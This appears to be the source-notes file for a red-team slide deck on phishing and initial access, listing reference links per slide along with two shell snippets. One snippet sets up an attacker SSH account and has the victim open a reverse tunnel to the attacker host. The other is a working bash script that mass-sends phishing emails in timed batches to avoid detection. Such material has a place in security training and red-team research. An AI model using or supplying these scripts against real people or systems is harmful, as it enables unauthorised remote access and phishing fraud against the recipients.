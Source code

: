 Slide6:
https://www.exim.org/exim-html-current/doc/html/spec_html/ch-building_and_installing_exim.html
https://www.aapanel.com/docs/#/3?page_id=178

Slide13:
https://x.com/CICADA8Research/status/1865676412444967384

Slide14-15:
https://vk.com/video-221945088_456239438

Slide16:
https://www.rbtsec.com/blog/cve-2024-21320-windows-themes-spoofing-vulnerability-walkthrough/
https://blog.0patch.com/2024/10/we-patched-cve-2024-38030-found-another.html

Slide17:
https://link.springer.com/article/10.1007/s10207-021-00548-5
https://posts.specterops.io/phishing-with-dynamite-7d33d8fac038

Slide18:
https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/
https://badoption.eu/blog/2023/09/28/ZipLink.html

```shell
attacker> sudo /etc/init.d/ssh start
attacker> useradd -M -N -d /dev/null -s /bin/false proxy
attacker> passwd proxy
victim> ssh proxy@attacker -N -R 1337
```

Slide21:

```shell
#!/bin/bash

EMAILS_FILE="emails.txt"

SENDMAIL_CMD='cat ./msg.txt | sendemail -f "Служба фишинга <task@pohek.ru>" -t "<email>" -u "Ломаем" -s smtp.phish:123 -xu user -xp password -o message-charset=utf-8'

if [[ ! -f "$EMAILS_FILE" ]]; then
    echo "File $EMAILS_FILE not found!"
    exit 1
fi

emails=($(cat "$EMAILS_FILE"))
emails_count=${#emails[@]}

batch_size=50    # Число адресатов за раз
interval=600     # Интервал в секундах (10 минут)

current_index=0
while [[ $current_index -lt $emails_count ]]; do

    batch_emails=("${emails[@]:$current_index:$batch_size}")
    
    echo "Sending next block email'ов (${current_index} - $((current_index + batch_size - 1))):"
    
    for email in "${batch_emails[@]}"; do
        eval "${SENDMAIL_CMD/<email>/$email}"
        echo "Sending mail to $email"
    done

    current_index=$((current_index + batch_size))
    
    if [[ $current_index -lt $emails_count ]]; then
        echo "Waiting $((interval / 60)) minutes before next sending..."
        sleep $interval
    fi
done

echo "Success!"
```

Slide22:
https://github.com/BinBashBanana/html-obfuscator
https://github.com/keklick1337/StealthHTML